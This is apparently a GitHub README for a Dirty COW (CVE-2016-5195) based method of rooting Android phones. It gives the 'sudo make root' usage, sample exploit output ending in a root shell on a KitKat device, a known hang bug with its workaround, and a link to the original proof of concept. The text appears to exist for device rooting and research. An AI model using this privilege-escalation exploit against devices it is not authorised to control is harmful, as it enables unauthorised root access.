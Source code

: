 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
Youtube: https://www.youtube.com/watch?v=bzrRWfDOQcM  
    
Should Spawn a root shell on device  
Usage sudo make root  
Output:  
[*] mmap 0xb6f00000  
[*] exploit (patch)  
[*] currently 0xb6f00000=464c457f  
[*] madvise = 0xb6f00000 13708  
[*] madvise = 0 1048576  
[*] /proc/self/mem 0 1048576  
[*] exploited 0xb6f00000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
root@ZTE-V811:/ #
  
Tested On Android Kitkat 4.4  
Knowen Bug:  
System Will Hang If You Exec a command on spawned shell  
Temp Fix: Exit Back to Terminal and type  
1) adb shell  
2) run-as  
Going adb shell run-as will produce the hang  
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
